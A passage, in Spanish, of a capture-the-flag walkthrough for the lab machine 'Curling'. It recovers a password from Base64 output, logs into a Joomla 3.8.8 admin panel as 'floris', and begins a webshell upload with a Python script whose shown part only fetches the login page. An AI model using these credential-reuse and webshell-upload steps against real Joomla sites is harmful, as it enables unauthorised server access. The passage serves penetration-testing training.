 La salida fue un Base64, por lo que posteriormente lo mande a un _pipe_ para que lo concatene a `base64 -d`. La salida es la frase __Curling2018!__. Esta luce como una contraseña, por lo que la salida de cewl podría revelarnos información sobre el usuario...

# My first post of curling in 2018!

Revisando nuevamente el contenido de la salida de httpie, podemos encontrar que hay un texto que incluye la firma de alguien:

```html
<p>Hey this is the first post on this amazing website! Stay tuned for more amazing content! curling2018 for the win!</p>
<p>- Floris</p>
```

Probemos las credenciales de `floris:Curling2018!`

# Login on jooomla

Ingresamos a `/administrator/index.php`:

![www administrator/index.php](/img/htb-curling/http-administrator-login.png)

Validamos las credenciales:

![www administrator as floris](/img/htb-curling/http-administrator-login-floris.png)

Excelente, ahora hemos ingresado como floris en el joomla. Veamos ahora que tenemos este acceso como podemos ejecutar cosas en el servidor para conseguir una shell remota.

# Uploading a webshell

Como hemos revisado anteriormente, tenemos un joomla 3.8.8. Buscando rápidamente en google _rce joomla 3.8.8_, nos encontraremos con un articulo de [packet storm security](https://packetstormsecurity.com/files/142731/Joomla-3.x-Proof-Of-Concept-Shell-Upload.html) el cual cuenta con una PoC para subir una shell usando el template de Beez3, y cargando una webshell simple de PHP.

El script modificado para funcionar en la maquina es el siguiente:

```python
#!/usr/bin/env python
# joomla_shellup.py - small script to upload shell in Joomla
#
# 02.05.2017, rewrited: 27.05
# -- hint --
# To exploit this "feature" you will need valid credentials.'
# Based on latest (3.6.5-1) version.'
#   Tested also on: 3.7.x


import requests
import re

target = 'http://10.10.10.150'

print '[+] Checking: ' + str(target)

# initGET
session = requests.session()
initlink = target + '/administrator/index.php'

initsend = session.get(initlink)
initresp = initsend.text

```